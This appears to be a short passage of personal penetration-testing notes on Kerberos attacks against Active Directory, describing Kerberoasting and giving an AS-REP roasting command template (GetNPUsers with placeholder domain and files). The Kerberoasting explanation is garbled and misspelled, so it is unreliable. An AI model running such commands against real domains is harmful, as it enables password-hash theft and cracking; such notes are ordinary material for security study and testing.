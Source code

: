 ### Common exploits
- kerberos roasting
    - This is where we can take the domain and user name (SPN) and try to get a TGT (Ticket Granting ticket) We can then attempt to crask the hash to get the user password (This will be exachnegd in the kerberos authenticaiton)
 
#### asperosting
```
GetNPUsers <domain> -dc.ip $target -usersfile <filename> -outfile <filename>
```
